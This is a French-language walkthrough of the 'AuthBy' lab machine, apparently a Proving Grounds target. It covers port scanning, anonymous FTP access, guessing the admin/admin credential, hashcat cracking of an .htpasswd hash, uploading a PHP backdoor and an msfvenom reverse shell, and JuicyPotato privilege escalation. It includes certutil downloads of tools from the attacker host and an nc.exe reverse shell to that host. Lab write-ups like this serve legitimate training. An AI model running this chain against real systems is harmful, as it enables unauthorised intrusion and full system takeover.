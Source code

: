 # AuthBy

	sudo masscan -p1-65535,U:1-65535 192.168.198.46 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.198.46 -oN nmap.txt
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp zFTPServer 6.0 build 2011-10-17  
	242/tcp open http Apache httpd 2.2.21 ((Win32) PHP/5.3.8)  
	3145/tcp open zftp-admin zFTPServer admin  
	3389/tcp open ssl/ms-wbt-server? 
	
Les connexions en anonyme sont autorisées sur le port 21 : 

	ftp anonymous@192.168.198.46
	ftp> ls
	ftp> exit
	wget -r ftp://192.168.198.46/ --ftp-user anonymous --ftp-password ""

Malheureusement je n'ai aucun droit de lecture et je peux apparemment juste traverser les dossiers. Mais j'ai quand même eu deux autres utilisateurs grâce aux messages de la fin : 

> ...
</br> => ‘192.168.198.46/accounts/backup/acc[Offsec].uac’
</br> ...
</br> => ‘192.168.198.46/accounts/backup/acc[anonymous].uac’  
> ... 
</br> => ‘192.168.198.46/accounts/backup/acc[admin].uac’  
> ...

</br>J'ai directement testé les couples ["Offsec" / "offsec"] et ["admin" / "admin"] et le deuxième a fonctionné. Cette fois on a accès à trois fichiers : "index.php", ".htpasswd" et ".htaccess" 

	ftp ftp://Admin:admin@192.168.198.46 -A
	ftp> mget *
	ftp> exit
	cat .htpasswd

Le fichier .htpasswd contient bien les identifiants du troisième compte mais le mot de passe est haché :

	cat .htpasswd | cut -d":" -f2 > hash.txt
	hashid -m hash.txt
	hashcat -m 1600 -a 0 hash.txt ~/wordlists/rockyou.txt
	

J'obtiens le mot de passe en clair mais impossible de se connecter en tant qu'Offsec sur le port 21. En revanche les credentials fonctionnent pour le petit site du port 242 qui demandait directement un identifiant et un mot de passe à l'ouverture. Mais on retombe juste sur la page "index.php" trouvée plus haut qui ne contient qu'une citation en latin. 

Après être retourné sur le FTP avec le deuxième compte, j'ai vu que l'on pouvait uploader des fichiers, j'ai décidé de tenter de mettre une backdoor PHP au même niveau que la page en latin. Cela a fonctionné mais j'ai eu beaucoup de mal à convertir la backdoor en reverse-shell, j'ai donc ensuite directement uploadé un reverse-shell dans le site web : 

	ftp ftp://Admin:admin@192.168.198.46 -A
	ftp> put backdoor.php
	ftp> exit
	curl http://192.168.198.46:242/backdoor.php?cmd=whoami -u offsec
	
	msfvenom  -p php/reverse_php LHOST=192.168.45.236 LPORT=443 -f raw > rev.php
	ftp ftp://Admin:admin@192.168.198.46 -A
	ftp> put rev.php
	ftp> exit
	rlwrap nc -nvlp 443
	curl http://192.168.198.46:242/rev.php
	...
	type C:\Users\apache\Desktop\local.txt


### Élévation de privilèges : 

	whoami /priv

Il y a le "SeImpersonatePrivilege" qui m'a directement poussé vers JuicyPotato et PrintSpoofer, mais pas moyen de les faire marcher, quelque soit l'architecture. La réponse était systématiquement "[...] is not compatible with the version of Windows you're running [...]"

En regardant les caractéristiques de la machine avec "systeminfo" on voit que l'OS est un Windows Server 2008 Standard, ce qui explique ces problèmes de compatibilité. J'ai trouvé une vieille version x86 de JuicyPotato et elle a fonctionné. 
</br>En revanche il faut changer le CLSID. 
</br>Voir https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise et tester un peu toute la liste.

	certutil.exe -urlcache -f http://192.168.45.236/Juicy.Potato.x86.exe ./Juicy.Potato.x86.exe
	certutil.exe -urlcache -f http://192.168.45.236/nc.exe ./nc.exe
	C:\wamp\www\Juicy.Potato.x86.exe -l 9999 -p c:\windows\system32\cmd.exe -a "/c C:\wamp\www\nc.exe 192.168.45.236 443 -e cmd.exe" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
	...
	rlwrap nc -nvlp 443
	type C:\Users\Administrator\Desktop\proof.txt




